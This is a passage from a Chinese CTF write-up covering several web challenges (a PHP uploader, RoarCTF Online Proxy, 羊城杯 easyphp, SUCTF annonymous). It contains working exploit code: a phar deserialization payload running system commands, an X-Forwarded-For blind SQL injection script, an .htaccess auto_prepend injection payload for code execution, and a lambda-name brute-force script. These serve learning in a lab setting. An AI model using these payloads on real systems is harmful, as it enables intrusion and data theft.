		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

	function upload($file){
		global $sandbox;
		global $ext;

		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}

?>
```

可以看到只有`home upload`会在后缀加**php**



稍微审计一下**upload.php**就能发现就是一个很简单的**phar反序列化**

```php
<?php
    class Uploader{
        public $Filename;
        public $cmd="system('cat /var/www/html/flag.php');";
        public $token='GXYb2a85e312be5d2bc78a26f1aff95f472';
    }
    @unlink("exp.phar");
    $xl = new Uploader();

    $phar = new Phar("exp.phar");
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar->setMetadata($xl);
    $phar->addFromString("exp.txt", "test");
    $phar->stopBuffering();
?>
```

token是由于在最后有个校验

`$this->Filename = $sandbox.$_SESSION['user'].$ext;`

在这一步实际上已经给出了，然后就是先将phar文件上传上去，再传name反序列化



## [RoarCTF 2019]Online Proxy

结合题目提示

> 为了保障您的使用体验，我们可能收集您的使用信息，这些信息只会被用于提升我们的服务，请您放心。

```html
<!-- Debug Info: 
 Duration: 0.056782960891724 s 
 Current Ip: 10.244.80.206  -->
```

大概猜测是将你的ip放进了数据库

也就是`X-Forwarded-For`注入

知道了这个就很好做了，随便偷个脚本吧（不想写。。

```python
# coding:utf-8
import requests
import time
url = 'http://node4.buuoj.cn:29111/'
 
res = ''
for i in range(1,200):
    print(i)
    left = 31#二分法快速查找关键字
    right = 127
    mid = left + ((right - left)>>1)
    while left < right:#盲注，利用substr将查询到的字符切割，用ascii函数转化为ascii码，利用二分法的中间值比大小直到查询成功
        #payload = "0' or (ascii(substr((select group_concat(schema_name) from information_schema.schemata),{},1))>{}) or '0".format(i,mid)
        #payload  = "0' or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = 'F4l9_D4t4B45e'),{},1))>{}) or '0".format(i,mid)
        #payload  = "0' or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = 'F4l9_t4b1e'),{},1))>{}) or '0".format(i,mid)
        payload = "0' or (ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e),{},1))>{}) or '0".format(i,mid)
        headers = {#第一次请求，是用我们的payload，防止cookie被刷新因此我们头部请求的时候必须要带上cookie
                    'Cookie': 'track_uuid=6e17fe5e-140c-4138-dea6-d197aa6214e3',#带cookie防止刷新重置
                    'X-Forwarded-For': payload
                    }
        r = requests.post(url = url, headers = headers)#头文件传输方法
 
        payload = '111'
        headers = {#后面就是相同cookie的二次三次输入，只为了执行第一次payload的查询语句
                    'Cookie': 'track_uuid=6e17fe5e-140c-4138-dea6-d197aa6214e3',
                    'X-Forwarded-For': payload
                    }
        r = requests.post(url = url, headers = headers)
 
        payload = '111'
        headers = {
                    'Cookie': 'track_uuid=6e17fe5e-140c-4138-dea6-d197aa6214e3',
                    'X-Forwarded-For': payload
                    }
        r = requests.post(url = url, headers = headers)
 
 
        if r.status_code == 429:#buu特色
            print('too fast')
            time.sleep(2)
        if 'Last Ip: 1'  in r.text:#payload语句用的都是大于，如果大于中值，则中值加一赋给最小值
            left = mid + 1
        elif 'Last Ip: 1' not in r.text:#不小于则中值给最大值
            right = mid
        mid = left + ((right-left)>>1)#右移1，代表除2 可以直接mid=（left +right）//2
    if mid == 31 or mid == 127:
        break
    res += chr(mid)#chr函数。ascii转化为字符
    print(str(mid),res)
    time.sleep(1)
# information_schema,ctftraining,mysql,performance_schema,test,ctf,F4l9_D4t4B45e
#F4l9_t4b1e
#F4l9_C01uMn
```

## [羊城杯2020]easyphp

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

给了一个写入文件的方法，但是除了**index.php**都会被删除，尝试文件竞争没成功。。

于是只能考虑一个写入了就会执行的文件，也就是`.htaccess`

利用它来更改**index.php**中的内容，从而rce

`.htaccess`

```htaccess
php_value auto_prepend_fil\ 
e .htaccess 
#<?php system('cat /fla'.'g');?>\ 
```

**payload**

```
?content=php_value%20auto_prepend_fil\%0ae%20.htaccess%0a%23<?php%20system('cat%20/fla'.'g');?>\&filename=.htaccess
```

然后访问**index.php**得到flag

## [SUCTF 2018]annonymous

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

可以看到两个熟悉但陌生的函数`create_function` `openssl_random_pseudo_bytes`

爆破随机数估计不太可能，想要执行这个`SUCTF_$hash()`估计只能靠php的cve

但是`create_function`创造的匿名函数也是有名字的`\x00lambda_%d` %d也就是当前进程数，所以不断爆破就可以了

```php
import requests
import time

url = 'http://461089ec-4877-4f84-a372-4fe9fd4ef1c3.node4.buuoj.cn:81/?func_name='
for i in range(5000):
   payload = f'\x00lambda_{i}'
   r = requests.get(url + payload)
   if 'flag' in r.text:
       print(r.text)
       break
   time.sleep(0.1)
```

